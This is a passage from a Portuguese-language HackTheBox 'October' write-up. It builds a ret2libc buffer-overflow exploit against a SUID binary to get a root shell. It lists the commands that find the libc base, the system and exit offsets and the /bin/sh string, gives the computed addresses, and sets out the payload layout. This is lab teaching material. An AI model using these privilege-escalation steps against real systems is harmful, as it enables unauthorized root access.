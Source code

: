 ### Ganhando acesso ao sistema

Agora executamos o exploit e esperamos ser feito o Brute Force, uma hora ele vai acertar e nos dar uma shell de root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_roota0.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_roota.png)

Bom uma vez que já sabemos como funciona a estrutura do exploit, podemos demonstrar agora como ir direto ao ponto e assim ganhar acesso de root

### Iniciando montagem do exploit (processo direto)

Bom, aqui vou direto ao ponto, o que será feito é conhecido como `ret2libc`, ou return to libc

Primeiro achar o endereço da libc (sim essa merda denovo... vamo lá, não custa praticar)

`ldd /usr/local/bin/ovrflw | grep libc`

> 0xb75b2000

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_ret.png)

Segundo pegar os endereços para system, exit e bin/sh

`readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"`

> 00033260 - exit

> 00040310 - system

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_ret1.png)

`strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/"`

> 162bac

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_ret2.png)

Agora vamos montar o exploit

Somamos os valores obtidos com a base da libc (isso foi feito antes também, mas quem realizou essa soma foi o próprio exploit)

```
exit: 0xb75b2000+0x33260 = 0xB75E5260
system: 0xb75b2000+0x40310 = 0xB75F2310
/bin/sh: = 0xb75b2000+0x162bac = 0xB7714BAC‬
```

O overflow vai ser, LIXO + system + exit + /bin/sh

Do mesmo modo que foi antes

#### É hora do show!

Se a porcaria do ASLR estivesse desabilitado, era só rodar esse comando que eu ia ganhar root
